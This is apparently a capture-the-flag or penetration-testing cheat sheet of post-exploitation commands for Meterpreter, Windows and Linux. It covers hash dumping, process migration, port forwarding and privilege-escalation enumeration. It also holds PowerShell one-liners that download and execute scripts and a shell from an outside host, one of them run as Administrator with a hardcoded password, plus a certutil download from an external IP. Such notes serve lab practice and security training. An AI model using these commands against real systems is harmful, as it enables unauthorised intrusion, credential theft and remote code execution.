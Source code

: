 ## Meterpreter
### getuid
### sysinfo
### hashdump
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Use different process
```
ps
migrate
```
### Get Powershell
```
load powershell
powershell_shell
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
## Windows
### Initial
```
whoami /all
```
### Script
```
IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/PowerUp.ps1')
cd c:/users
```

### Check permission
```
Get-ACL administrator | Fl *
```

### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```
### route print
### netstat -ano
### arp -a
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```

## Bash
```
sockstat -l
cat .bash_history
history
sudo -l
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
```
python windows-exploit-suggester.py --database 2020-05-19-mssb.xls --systeminfo systeminfo.txt
```
### https://www.fuzzysecurity.com/tutorials/16.html
